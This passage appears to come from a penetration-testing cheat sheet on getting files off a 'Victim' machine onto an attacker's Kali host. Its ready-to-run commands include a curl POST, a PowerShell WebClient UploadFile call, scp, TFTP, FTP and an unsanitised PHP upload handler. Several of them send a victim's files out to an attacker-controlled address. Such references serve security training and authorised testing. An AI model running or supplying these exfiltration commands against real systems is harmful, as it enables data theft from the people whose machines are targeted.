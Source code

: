 ```bash
sudo updog -p 80
```
Then on the Victim machine use curl to upload the file to our host machine:
```bash
curl -v -XPOST -F "file=@in.txt;filename=out.txt" -F "path=." http://<Kali_IP>/upload
```
#### HTTP SecSwap
On Victim machine (must have python3 and required libraries) we can start a server:
```bash
./secswap server -p 8080 -a
```
On Attack machine we can download:
```bash
./secswap client -s [server address] -p [port number] -ls [optional directory] -a
```
*`-a` allows for password authentication during file transfer*
#### HTTP/Powershell:
**Windows**
In Kali (SETTING UP ENVIRONMENT):
```bash
cd /var/www/html
sudo nano  upload.php:
```php
		<?php
		$uploaddir = '/current/directory/path';
		
		$uploadfile = $uploaddir . $_FILES['file']['name'];
		
		move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
		?>
```
```bash
sudo mkdir /var/www/uploads
sudo chown www-data: /var/www/uploads
```
Uploading file from Windows:
```bash
powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'important.docx')
```
#### SCP:
Start SSH service on Kali:
```bash
sudo systemctl start ssh
```
From Victim machine run:
```bash
scp in.txt kali@<Kali_IP>:~/path/to/file
```
#### TFTP:
Host TFTP server in Kali:
```bash
atftpd --daemon --port 69 root-dir
```
From Victim (Won't work on newer Windows Systems):
```bash
tftp -i ip-addr {GET | PUT} file
```
#### FTP:
To open FTP Port from current directory in Kali with write access run:
```bash
python -m pyftpdlib -p 2121 -w -u user -P pass
```
Or to open ftp port 22 run:
```bash
sudo service pure-ftpd start
```